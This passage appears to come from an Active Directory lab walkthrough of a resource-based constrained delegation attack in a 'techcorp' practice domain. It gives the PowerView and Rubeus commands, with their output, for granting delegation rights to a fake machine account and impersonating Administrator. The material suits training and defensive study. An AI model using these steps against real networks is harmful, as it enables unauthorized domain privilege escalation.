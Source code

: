 ```powershell
[+] Machine account US-WRKST1 added
PS C:\Auditor> ipmo .\PowerView.ps1
PS C:\Auditor> $ComputerSid = Get-DomainComputer US-WRKST1 -Properties objectsid | Select -Expand objectsid
PS C:\Auditor> echo $ComputerSid
S-1-5-21-210670787-2521448726-163245708-20101
PS C:\Auditor> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
PS C:\Auditor> $SDBytes = New-Object byte[] ($SD.BinaryLength)
PS C:\Auditor> $SD.GetBinaryForm($SDBytes, 0)
PS C:\Auditor> Get-DomainComputer us-helpdesk.us.techcorp.local | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
VERBOSE: [Get-DomainSearcher] search base:
LDAP://US-DC.US.TECHCORP.LOCAL/DC=US,DC=TECHCORP,DC=LOCAL
VERBOSE: [Get-DomainObject] Extracted domain 'us.techcorp.local' from
'CN=US-HELPDESK,CN=Computers,DC=us,DC=techcorp,DC=local'
VERBOSE: [Get-DomainSearcher] search base:
LDAP://US-DC.US.TECHCORP.LOCAL/DC=us,DC=techcorp,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(distinguishedname=CN=US-HELPDESK,CN=Computers,DC=us,DC=techcorp,DC=local)))
VERBOSE: [Set-DomainObject] Setting 'msds-allowedtoactonbehalfofotheridentity' to '1 0 4 128 20 0 0
 0 0 0 0 0 0 0 0 0 36 0 0 0 1 2 0 0 0 0 0 5 32 0 0 0 32 2 0 0 2 0 44 0 1 0 0 0 0 0 36 0 255 1 15 0
1 5 0 0 0 0 0 5 21 0 0 0 195 148 142 12 22 65 74 150 140 238 186 9 133 78 0 0' for object
'US-HELPDESK$'
```
- We are now ready to execute our attack. First we need the RC4 hash of the password of the computer account we created.
```powershell
PS C:\Auditor> .\Rubeus.exe hash /user:US-WRKST1$ /password:Password123! /domain:us.techcorp.local

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : Password123!
[*] Input username             : US-WRKST1$
[*] Input domain               : us.techcorp.local
[*] Salt                       : US.TECHCORP.LOCALhostus-wrkst1.us.techcorp.local
[*]       rc4_hmac             : 2B576ACBE6BCFDA7294D6BD18041B8FE
[*]       aes128_cts_hmac_sha1 : 88F9A7787D696543DE1517143F6F2ADC
[*]       aes256_cts_hmac_sha1 : 3A5C4C6613D724ED067F6D8476D83C8A63BE9AD1CE403A0048195F71E692F54E
[*]       des_cbc_md5          : 733B57B9EF858920
```
- Using the fake computer account we created, we will request a TGS for the service name we want to pretend to have administrative privileges for, as well as the user that we want to impersonate.
```powershell
PS C:\Auditor> .\Rubeus.exe s4u /user:us-wrkst1$ /rc4:2B576ACBE6BCFDA7294D6BD18041B8FE /impersonateuser:Administrator /msdsspn:http/us-helpdesk.us.techcorp.local /nowrap /ptt

<snip>
```
- We can now disable the computer account we created for the attack. However, if we want to clean the `msds-allowedtoactonbehalfofotheridentity` attribute we will have to use `SharpAllowedToAct`.
```powershell
PS C:\Auditor> Disable-MachineAccount -MachineAccount US-WRKST1
[+] Machine account US-WRKST1 disabled
```